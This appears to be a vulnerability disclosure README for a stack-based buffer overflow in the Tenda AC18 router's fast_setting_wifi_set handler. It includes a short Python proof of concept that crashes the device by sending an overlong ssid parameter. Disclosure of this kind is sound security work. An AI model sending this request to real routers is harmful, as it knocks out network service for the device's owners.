 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `form_fast_setting_wifi_set`.

In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a **Deny of Service Attack**.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```

## Timeline

* 2022-05-06: Report to CVE & CNVD;

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
